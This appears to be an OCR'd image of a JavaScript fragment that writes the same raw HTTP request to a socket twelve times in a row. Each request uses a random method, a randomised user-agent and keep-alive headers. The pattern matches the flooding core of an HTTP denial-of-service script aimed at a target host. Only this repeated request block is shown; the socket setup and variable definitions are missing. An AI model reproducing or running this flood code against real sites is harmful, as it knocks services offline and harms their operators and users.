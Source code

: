 s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');
        s.write(randomMethods + ' ' + parsedTarget.host + ' HTTP/1.2\r\nHost: ' + parsed.host + '\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3\r\nuser-agent: ' + userAgent[Math.floor(Math.random() * userAgent.length)] + '\r\nUpgrade-Insecure-Requests: 1\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\nCache-Control: max-age=0\r\nConnection: Keep-Alive\r\n\r\n');